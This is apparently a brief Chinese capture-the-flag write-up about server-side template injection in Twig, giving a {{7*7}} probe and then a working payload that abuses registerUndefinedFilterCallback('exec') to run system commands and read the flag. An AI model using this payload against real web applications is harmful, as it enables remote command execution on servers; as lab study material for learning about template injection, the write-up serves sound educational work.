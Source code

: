知识点：

1. 模板注入ssit

2. twig模板注入

参考：

https://zhuanlan.zhihu.com/p/28823933



1. 和[BJDCTF2020]The mystery of ip类似，尝试模板注入

payload:

```javascript
{{7*7}}
```



![](images/C39677EE66C0403DAB952AA207A37E51clipboard.png)



2. 直接使用https://zhuanlan.zhihu.com/p/28823933里的twig模板注入，payload:

```javascript
 user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```



![](images/9B831080F35044BE892AEB1C9374BCBEclipboard.png)

命令执行成功，只需要cat /flag即可得到flag